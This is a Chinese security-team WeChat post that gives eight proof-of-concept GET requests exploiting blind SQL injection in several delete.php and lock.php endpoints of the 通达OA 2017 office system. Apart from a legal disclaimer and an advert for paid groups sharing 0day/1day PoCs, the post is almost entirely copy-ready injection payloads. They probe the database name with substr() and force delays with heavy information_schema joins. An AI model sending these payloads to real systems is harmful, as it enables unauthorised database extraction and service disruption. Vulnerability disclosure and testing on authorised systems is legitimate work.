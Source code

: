 #  通达OA 2017多个delete SQL注入漏洞POC合集

原创 CVES实验室  [ 山海之关 ](javascript:void\(0\);)

**山海之关** ![]()

微信号 shg-sec

功能介绍 山海关安全团队公众号。

____

___发表于_

收录于合集

#poc 13 个

#漏洞复现 4 个

![]()

**严正声明**

 **1\. 本文仅用于技术交流，目的是向相关安全人员展示漏洞的存在和利用方式，以便更好地 提高网络安全意识和技术水平。**

 **2\. 任何人不得利用本文中的技术手段进行 非法攻击和侵犯他人的隐私和财产权利。一旦发生任何违法行为，责任自负。**

 **3\. 本文中提到的漏洞验证 poc  仅用于授权测试，任何未经授权的测试均属于非法行为。请在法律许可范围内使用此 poc。**

 **4\. CVES实验室对使用此 poc 导致的任何直接或间接损失不承担任何责任。使用此 poc 的 风险由使用者自行承担。**

 **POC合集**

 **注：该漏洞由delete功能引发，请勿直接测试。**  

 **POC1：**  

  *   *   *   * 

    
    
     GET/general/hr/recruit/recruitment/delete.php?RECRUITMENT_ID=1)%20and%20(substr(DATABASE(),1,1))=char(116)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B)%20and(1)=(1

 **POC2：**  

  *   *   *   * 

    
    
     GET/general/hr/manage/staff_relatives/delete.php?RELATIVES_ID=1)%20and%20(substr(DATABASE(),1,1))=char(116)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B)%20and(1)=(1

 **POC3：**

  *   *   * 

    
    
     GET/general/hr/salary/welfare_manage/delete.php?WELFARE_ID=1)%20and%20(substr(DATABASE(), 1,1))=char(116)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B)%20and(1)=(1

 **POC4：**  

  *   *   *   * 

    
    
     GET/general/system/approve_center/flow_guide/flow_type/set_print/delete.php?DELETE_STR=1)%20and%20(substr(DATABASE(),1,1))=char(116)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B)%20and(1)=(1

 **POC5：**  

  *   *   *   * 

    
    
     GET/general/hr/training/record/delete.php?RECORD_ID=1)%20and%20(substr(DATABASE(),1,1))=char(116)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B)% 20and(1)=(1

 **POC6：**  

  *   *   *   * 

    
    
     GET/general/vehicle/checkup/delete.php?VU_ID=1)%20and%20(substr(DATABASE(),1,1))=char(116)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B)%20and(1)=(1

 **POC7：**  

  *   *   *   * 

    
    
     GET/general/system/censor_words/module/delete.php?DELETE_STR=1)%20and%20(substr(DATABASE(),1,1))=char(116)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B)%20and(1)=(1

 **POC8：**

  *   *   *   * 

    
    
     GET/general/wiki/cp/manage/lock.php?TERM_ID_STR=1)%20and%20(substr(DATABASE(),1,1))=char(116)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B)%20and(1)=(1

 **更多POC请关注“追洞学苑”**  

![]()

 **广告**

 **目前团队运营了两个知识星球分别为 “追洞学苑”与“挖洞学苑”：**  

 **追洞学苑】** **会分享最新的漏洞POC，1day0day挖掘文章。**

 **挖洞学苑】** **会分享国内/外原创漏洞赏金项目报告，各种漏洞挖掘小技巧。**

![]()

预览时标签不可点

微信扫一扫  
关注该公众号

轻触阅读原文

继续滑动看下一个

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看


